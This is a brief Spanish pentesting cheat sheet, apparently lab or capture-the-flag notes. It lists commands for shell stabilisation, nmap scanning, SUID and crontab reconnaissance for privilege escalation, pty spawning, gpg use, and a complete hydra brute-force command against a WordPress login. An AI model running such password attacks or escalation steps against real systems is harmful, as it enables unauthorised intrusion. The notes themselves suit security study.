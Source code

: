 # COMANDOS MAS COMUNES PENTESTING 🚀

## Estabilizar shell 🔧
```
/usr/bin/script -qc /bin/bash /dev/null
Ctrl+z
stty raw -echo;fg
```
## NMAP básico 🔧
nmap -sC -sV -oN initial $IP

## Escalar priveligios 📖
```
cat /etc/crontab
```
Buscamos ficheros que con permiso SUID
	
SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.
```
find / -perm -u=s -type f 2>/dev/null
```
Busqueda de ficheros ejecuables:
```
find / -type f -name "*.sh" 2>/dev/null
```

https://gtfobins.github.io/#

## Reverse shell 📖
https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/

## Técnicas varias 🔧
_Abrir terminal con python:_ 
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
_Uso de hydra:_ 
```
hydra -L fsocity.dic -p test 10.10.192.186 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.192.186%2Fwp-admin%2F&testcookie=1:F=Invalid username' otra opción final: /S=302
```
_Encriptar gpg:_
```
gpg --list-keys --> listar claves
gpg --import /var/backup/root@harder.local.pub --> importar claves
gpg -er root command --> encryptar archivo con la clave
```
_Ver puertos abiertos:_
```
sudo netstat -tulpn | grep LISTEN
```
